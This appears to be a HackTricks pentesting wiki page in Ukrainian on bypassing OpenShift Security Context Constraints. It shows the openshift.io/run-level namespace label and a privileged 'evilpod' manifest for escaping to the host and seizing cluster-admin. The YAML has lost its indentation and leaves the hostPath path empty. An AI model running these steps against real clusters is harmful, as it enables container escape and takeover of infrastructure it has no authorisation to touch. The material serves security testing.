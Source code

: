 # Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**Автором цієї сторінки є** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Привілейовані простори імен

За замовчуванням, SCC не застосовується до наступних проектів:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Якщо ви розгортаєте поди в одному з цих просторів імен, жоден SCC не буде застосовано, що дозволяє розгортати привілейовані поди або монтувати файлову систему хоста.

## Мітка простору імен

Існує спосіб вимкнути застосування SCC на вашому поді відповідно до документації RedHat. Вам потрібно мати принаймні одне з наступних дозволів:

- Створити простір імен і створити под у цьому просторі імен
- Редагувати простір імен і створити под у цьому просторі імен
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Специфічна мітка `openshift.io/run-level` дозволяє користувачам обходити SCC для додатків. Згідно з документацією RedHat, коли ця мітка використовується, жодні SCC не застосовуються до всіх подів у цьому просторі імен, ефективно усуваючи будь-які обмеження.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Додати мітку

Щоб додати мітку у вашому просторі імен:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Щоб створити простір імен з міткою через файл YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Тепер всі нові поди, створені в просторі імен, не повинні мати жодного SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

У відсутності SCC немає жодних обмежень на визначення вашого пода. Це означає, що зловмисний под може бути легко створений для втечі на хост-систему.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Тепер стало легше підвищити привілеї для доступу до хост-системи і, відповідно, захопити весь кластер, отримавши привілеї 'cluster-admin'. Шукайте частину **Node-Post Exploitation** на наступній сторінці:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Користувацькі мітки

Більше того, в залежності від налаштування цілі, деякі користувацькі мітки / анотації можуть використовуватися так само, як у попередньому сценарії атаки. Навіть якщо це не призначено, мітки можуть використовуватися для надання дозволів, обмеження або не обмеження конкретного ресурсу.

Спробуйте знайти користувацькі мітки, якщо ви можете прочитати деякі ресурси. Ось список цікавих ресурсів:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Перерахуйте всі привілейовані простори імен
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

В OpenShift, як було продемонстровано раніше, наявність дозволу на розгортання пода в просторі імен з міткою `openshift.io/run-level` може призвести до простого захоплення кластера. З точки зору налаштувань кластера, ця функціональність **не може бути вимкнена**, оскільки вона є невід'ємною частиною дизайну OpenShift.

Однак, заходи пом'якшення, такі як **Open Policy Agent GateKeeper**, можуть запобігти користувачам встановлювати цю мітку.

Щоб обійти правила GateKeeper і встановити цю мітку для виконання захоплення кластера, **зловмисники повинні виявити альтернативні методи.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}

